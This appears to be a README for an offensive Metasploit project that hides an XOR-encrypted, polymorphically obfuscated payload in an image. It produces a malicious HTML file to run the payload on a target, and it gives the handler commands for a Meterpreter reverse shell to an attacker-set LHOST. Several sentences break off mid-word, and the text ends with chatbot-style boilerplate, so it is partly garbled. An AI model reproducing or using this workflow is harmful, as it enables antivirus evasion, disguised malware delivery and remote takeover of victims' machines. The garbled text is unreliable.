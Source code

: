 # Embedded Image Payload Module

This project demonstrates how to create a Metasploit module that embeds a payload into an image file and generates a malicious HTML file to execute the payload on a target machine.
## Features

- Embeds a payload into an image file using steganography techniques
- Encrypts the payload using XOR encryption with a random key
- Applies polymorphic techniques to obfuscate the payload and evade antivirus detection
- Generates a malicious HTML file that extracts and e- Sets up a Metasploit handler to receive the reverse shell connection

## Requirements

- Ruby programming language
- Metasploit framework

## Usage

1. Clone the repository:
git clone https://github.com/your-username/embedded-image-payload.git


Copy code

2. Install the required dependencies:
bundle install


Copy code

3. Customize the module and payload:
- Open the `module.rb` file and modify the module options, such as the image path and output path.
- Open the `payload.rb` file and customize the payload generation and obfuscation techniques as needed.

4. Generate the payload and embed it into the image:
ruby exploit.rb


Copy code

5. Set up the Metasploit handler:
- Open a new terminal window and start the Metasploit console:
  ```
  msfconsole
  ```
- Select the `exploit/multi/handler` module:
  ```
  use exploit/multi/handler
  ```
- Set the payload to match the one used in the malicious HTML file:
  ```
  set PAYLOAD windows/meterpreter/reverse_tcp
  ```
- Set the `LHOST` and `LPORT` options to specify the IP address and port for the  ```
  set LHOST YOUR_IP
  set LPORT 4444
  ```
- Start the handler:
  ```
  run
  ```

6. Transfer the generated malicious HTML file to the ta
7. Once the payload is executed, a reverse shell connection will be established, and you can interact with the target machine using Meterpreter commands.

## Disclaimer

This project is intended for educational and research purposes only. The authors and contributors are not responsible for any misuse or damage caused by this project. Use it at your own risk and ensure that you have proper authorization before using it in any real-world scenarios.

## License

This project is licensed under the [MIT License](LICENSE).
## Acknowledgements

- Metasploit framework
- Ruby programming language
Feel free to customize the README.md file based on your specific project details and requirements. You can add more sections, such as installation instructions, contributing guidelines, or any other relevant information.

Remember to replace **YOUR_IP** with the actual IP address of your machine where you want to receive the reverse shell connection.

